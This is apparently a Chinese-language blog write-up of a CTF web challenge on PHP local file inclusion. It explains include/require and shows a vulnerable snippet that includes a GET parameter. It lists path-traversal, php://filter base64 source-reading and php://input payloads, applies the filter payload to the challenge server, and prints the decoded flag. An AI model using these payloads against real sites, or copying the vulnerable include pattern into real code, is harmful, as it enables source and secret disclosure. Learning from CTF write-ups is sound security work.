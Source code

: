 ```yaml
---
layout:     post
title:      2019-04-09 收获 总结
subtitle:   BasicFileInclude解题
date:       2019-04-09
author:     DaYou
header-img: img/post-bg-cook.jpg
catalog: true
---
```



## 0x1 题目要求
![](https://wxt.sinaimg.cn/mw1024/0079f8Holy1g1wp2y9jtdj30gl09t0sl.jpg?tags=%5B%5D)
注：-(题目中的链接)[http://123.207.149.64:23338/] 

打开链接后的页面：
![](https://wx4.sinaimg.cn/mw1024/0079f8Holy1g1wp2yapakj30f1064wee.jpg)
## 0x2  解题步骤
### 1. 原理
php文件包含函数（四个）过滤不严：require、require_once、include、include_once。 include和require区别主要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。

### 文件包含漏洞的常见使用方法
1）php包含上传文件
```
<?php 
 $file = $_GET['page']; 
 include $file; 
?>
url?page=../../file.txt
```
2）php包含读文件 将php源码以base64编码的形式读出来，下面是一个payload的示例：
```
http://192.168.5.79/index.php?url=php://filter/read=convert.base64-encode/resource=flag
```
3） php包含写文件 要是想利用包含写文件，必须开启PHP的url_allow_ include远程URL功能，但是这个功能经过测试在5.3.0的时候已经用不了了，5.4.0直接废除了，因此在PHP 5.3.0一下版本才能实现。
```
url?page=php://input
```
### 3.利用方法2）解题
构造payload:
```
http://123.207.149.64:23338/?page=php://filter/read=convert.base64-encode/resource=flag
```
得到base64位加密后的代码：
```
aGEgaGE/IHlvdSB3YW50IGZsYWc/IGZsYWcgaXMgaGVyZTw/cGhwDQovLyB0cnkgdG8gcmVhZCB0aGlzIHNvdXJjZSBjb2RlDQovLyRmbGFnID0gJ2ZsYWd7cmVhbGx5X2Jhc2ljX3NraWxsX3dlYl9kb2dfc2hvdWxkX2tub3d9JzsNCj8+LCBidXQgZG9uJ3QgbGV0IHlvdSBzZWUhDQo=
```
利用-(在线解码工具)[http://tool.oschina.net/encrypt?type=3]
!()[https://wx3.sinaimg.cn/mw1024/0079f8Holy1g1wp2ycr0hj30s50540sr.jpg]
得到flag:flag{really_basic_skill_web_dog_should_know}